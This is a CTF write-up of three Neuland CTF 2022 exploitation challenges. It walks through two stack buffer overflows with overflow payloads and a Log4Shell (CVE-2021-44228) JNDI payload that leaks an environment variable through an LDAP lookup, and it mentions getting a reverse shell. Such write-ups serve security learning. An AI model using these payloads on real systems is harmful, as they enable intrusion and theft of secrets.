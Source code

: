 ```yaml
---
title: "Neuland CTF 2022 Winter - PWN"
authors: ["0xFFD700", "manuv"]
date: 2022-12-07T18:04:00+02:00
draft: false
tags:
- ctf
- writeup
- security
- cyber
- cybersecurity
---
```


#### Password Guessing - Easy

*Can you guess the secret password? It changes every time you start the program. There is no chance you get it right. Try your luck! <br>
PS: You definitly need the password to get the flag. There is no way around.*

*You can test your solution locally. Connect to the server once it works to retrieve to flag:* <br>
*nc summit.informatik.sexy 8083*
<br>

[password_guessing.c](/files/neuland-ctf-12-2022/password_guessing.c)

<br>

We will start off by looking at the provided source code. A random password is generated every time the program is executed. The flag gets printed out if `logged_in == 1`. `logged_in` is set to 1 if we get the right password. We would have a hard time trying to guess the password and set `logged_in` to 1 through this way. Luckily the code uses `gets` to get the user input. `gets` does not check the array boundaries and we can input as many characters as we like. This allows us to overwrite the value of `logged_in`. A basic understanding of the stack is usefull to understand why this works. We can just input a bunch of characters (> 60) and the flag will be returned:

```
$ ./password_guessing                         
Guess the random password:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wrong Password

nland{dummy-flag}
```

Executed on the server we get the flag:

```
$ nc summit.informatik.sexy 8083
Guess the random password:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wrong Password

nland{51mpl3_45_7h47}
```

The flag is ``nland{51mpl3_45_7h47}`.

<br>

#### h4ck3r - Medium

*Can you find a way to change `secret_code`? I you do so I will reward you with a flag.*

*You can test your solution locally. Connect to the server once it works to retrieve to flag:* <br>
*nc summit.informatik.sexy 8081*
<br>

[h4ck3r.c](/files/neuland-ctf-12-2022/h4ck3r.c)

<br>

At first sight the task seems impossible. In order to get the flag the value of `secret_code` must be 0x1337. However, the variable is initialized with 0xC001D00D and is not changed during runtime. This means no matter what value we input as our hacker name, the value of `secret_code` will still be wrong. However, there is a small detail we have to take into consideration. The read function is used to save the user input in an array of size 100. The read function takes up to 0x100 = 256 characters and writes them to `name`. This allows us to go out of bounds and to change values on the stack. What a coincidence. This allows us the change the value of `secret_code` to whatever we want. Therefore we need to find the right offset to overwrite the memory area of `secret_code`. 

We can use python to generator inputs of a certain length and pipe them into the program. We know that the input must be at least 100 characters long.
```
$ python -c "print('A'*100)" | ./h4ck3r
```

At the end of this input we need to append the value of `secret_code`. Due to little endian we have to reverse the order of the bytes.
```
python -c "print('A'*100 + '\x37\x13\x00\x00')" | ./h4ck3r
```

Now we are good to go and we can try inputs of different lengths by increasing the number of A's. We can use GDB or change the program locally to give us more information on where excatly the offset of the memory area is. 108 A's is the sweetspot. We can send the payload to the server and we will get the flag.

```
$ python -c "print('A'*108 + '\x37\x13\x00\x00')" | nc localhost 8080
Enter your hacker name: Access granted!
nland{y0u_4r3_4_r34l_h4ck3r_n0w}
```

The flag is `nland{y0u_4r3_4_r34l_h4ck3r_n0w}`.

<br>

#### Log4Flag - Hard

*There is this program that is supposed to give me the flag. However, even if I beg for it and say the magic word, it won't return it. Try to lookup the flag.*

*You can test your solution locally. Connect to the server once it works to retrieve to flag:* <br>
*nc summit.informatik.sexy 8082*
<br>

[Log4Flag.zip](/files/neuland-ctf-12-2022/Log4Flag.zip)

<br>

This is the response if we connect to the server:
```
$ nc summit.informatik.sexy 8082
Do you want the flag?
yes
Try Harder! <3

Do you want the flag?
no
What are you even doing here? :P

Do you want the flag?
test 
Try a different input!

Do you want the flag?
...
```

Running the code locally with `run.sh` yields the same results. The response won't help us much for now. The `Log4Flag.zip` contains Java bytecode in the file `Log4Flag.class`. We can use `bytecode-viewer` or a website like [javadecompilers](http://www.javadecompilers.com/) to get the Java source code.

```java
import java.util.Scanner;

import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.LogManager;

public class Log4Flag {
    public static void main(String[] array) {
        try {
            final Logger logger = LogManager.getLogger("Log4Flag");

            while (true) {
                System.out.println("Do you want the flag?");
                String input = new Scanner(System.in).next();

                if (input.toLowerCase().contains("yes") && input.toLowerCase().contains("please")) {
                    System.out.println("I won't give you the flag this easily!");
                    logger.error("Unauthorized access attempt with input: {}", (Object) input);
                } else if (input.toLowerCase().contains("yes")) {
                    System.out.println("Try Harder! <3");
                } else if (input.toLowerCase().contains("please")) {
                    System.out.println("Getting closer!");
                } else if (input.toLowerCase().contains("no")) {
                    System.out.println("What are you even doing here? :P");
                } else {
                    System.out.println("Try a different input!");
                }
                System.out.println("");
            }
        } catch (Exception x) {
            System.err.println(x);
        }
    }
}
```
We can see that the code is using log4j. This should ring a bell about the zero day exploit in log4j that was published about a year ago [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-44228). Knowing this and looking at the challenge name, it is kind of obvious what we should do now. We need to use this vulnerability to find the flag.

We can also see that the logger is used if our input contains the words "yes" and "please". 
```bash
$ ./run.sh
Do you want the flag?
yesplease
I won't give you the flag this easily!
22:01:16.185 [main] ERROR Log4Flag - Unauthorized access attempt with input: yesplease
```

We can see that we now get a response from the logger as well. However, we haven't gotten the flag yet. We need to dig deeper.
We will start with a PoC to show that the vulnerability is present in the code:

```
$ ./run.sh 
Do you want the flag?
${jndi:ldap://127.0.0.1/test}yesplease
I won't give you the flag this easily!
2022-11-25 21:58:39,272 main WARN Error looking up JNDI resource [ldap://127.0.0.1/test]. javax.naming.CommunicationException: 127.0.0.1:389 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
        at java.naming/com.sun.jndi.ldap.Connection.<init>(Connection.java:252)
        at java.naming/com.sun.jndi.ldap.LdapClient.<init>(LdapClient.java:137)
        ...

21:58:39.179 [main] ERROR Log4Flag - Unauthorized access attempt with input: ${jndi:ldap://127.0.0.1/test}yesplease
```

The error messages proof that the vulnerability exists. The server tries to conntact a LDAP server and the connection gets refused. If we have a LDAP server, we could try to send request to it in order to create a reverse shell. This is not neccessary in this example. If we look at the `run.sh` script, we can see that the flag is saved in an environment variable called `FLAG`.
We can perform an environment lookup with log4j and retrieve the flag from the environment variables. 

```
$ ./run.sh     
Do you want the flag?
${jndi:ldap://127.0.0.1/${env:FLAG}}yesplease
I won't give you the flag this easily!
2022-11-25 22:10:38,008 main WARN Error looking up JNDI resource [ldap://127.0.0.1/nland{dummy-flag}]. javax.naming.CommunicationException: 127.0.0.1:389 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
...

22:10:37.920 [main] ERROR Log4Flag - Unauthorized access attempt with input: ${jndi:ldap://127.0.0.1/${env:FLAG}}yesplease
```

We managed to exploit the code locally and to retrieve the dummy flag. It is contained in the exception log. Now we just have to execute the same payload on the server and we will be rewarded with the real flag. <br>
The flag is `nland{3nv1r0nm3n7_l00kup_&_m461c_w0rd_4_fl4g}`.
